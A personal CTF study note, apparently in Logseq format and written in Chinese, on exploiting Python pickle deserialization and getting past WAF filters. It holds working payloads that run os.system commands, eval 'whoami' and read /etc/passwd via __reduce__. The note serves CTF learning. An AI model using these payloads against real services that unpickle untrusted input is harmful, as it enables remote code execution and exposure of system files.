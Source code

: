 tags:: CTFWEB/Python

- > [参考](https://xz.aliyun.com/t/7012)
- # 原理
	- pickle数据实际上是字节码，加载pickle就是执行这串字节码
	- 我们可以通过构造恶意字节码来调用eval函数，实现RCE
- # 绕WAF
	- payload生成：[[CTFWEB/Python/Pickle/opcode]]
	- python 3.14之后内置函数`breakpoint`支持接收参数`commands`，可以执行任意PDB命令
		- 然后用命令`p f"{__import__('os')}"`就可以实现任意eval
	- 字符串
		- pickle要想支持字符串拼接可以考虑拿到`builtins.getattr`
		- 需要RCE可以找找其他被import的函数
		- 字符串拼接函数在jinja2中有：`jinja2.utils.concat`
			- ```python
			  builtins_opcode = pickle_obj(
			      pickle_stack_global(pickle_string("BINSTRING", "jinja2.utils"), pickle_string("BINSTRING", "concat")),
			      [
			          pickle_tuple(
			              "TUPLE",
			              [pickle_string("BINSTRING", "built"), pickle_string("BINSTRING", "ins")],
			          )
			      ],
			  )
			  ```
	- 字母`R`被禁用
		- 用GLOBAL找到危险函数并用OBJ调用
		- ```python
		  import pickle
		  import pickletools
		  
		  opcode=b'''(cos
		  system
		  S'bash -c "sleep 1"'
		  o.'''
		  pickletools.dis(opcode)
		  pickle.loads(opcode)
		  ```
	- 可以用[这个工具](https://github.com/EddieIvan01/pker)生成
		- 可以实现：
		  collapsed:: true
			- 变量赋值 存到 memo 中，保存 memo 下标和变量名即可
			- 函数调用
			- 类型字面量构造
			- list 和 dict 成员修改
			- 对象成员变量修改
		- ```shell
		  $ cat test/code_breaking
		  getattr = GLOBAL('builtins', 'getattr')
		  dict = GLOBAL('builtins', 'dict')
		  dict_get = getattr(dict, 'get')
		  globals = GLOBAL('builtins', 'globals')
		  builtins = globals()
		  __builtins__ = dict_get(builtins, '__builtins__')
		  eval = getattr(__builtins__, 'eval')
		  eval('__import__("os").system("whoami")')
		  return
		  
		  $ python3 pker.py < test/code_breaking
		  b'cbuiltins\ngetattr\np0\n0cbuiltins\ndict\np1\n0g0\n(g1\nS\'get\'\ntRp2\n0cbuiltins\nglobals\np3\n0g3\n(tRp4\n0g2\n(g4\nS\'__builtins__\'\ntRp5\n0g0\n(g5\nS\'eval\'\ntRp6\n0g6\n(S\'__import__("os").system("whoami")\'\ntR.'
		  ```
- # Pickle文件OPCODE分析
	- `python -m pickletools pickle.pkl`
- # 基础
	- pickle支持
	  id:: 65af7fea-bc74-4284-97a3-e8fbebbd3614
		- 构造任意字符串、字节序列、数字、元组、列表、字典放入栈顶
		- 取全局变量放入栈顶
			- 可以取某模块中的对象，如`__main__.app`或者`jinja2.utils.concat`
		- 调用函数
		- 根据类创建对象
	- 把生成的 bytes 加载即可执行任意代码
	- 对象被 pickle 反序列化时，pickle 会调用对象的`__reduce__`方法（如果有）来获得反序列化的方法
	- ```python
	  #!/usr/bin/python2
	  import pickle
	  import urllib
	  class payload(object):
	      def __reduce__(self):
	         return (eval, ("open('/etc/passwd','r').read()",))
	  a = pickle.dumps(payload())
	  a = urllib.quote(a)
	  print(a)
	  ```
-
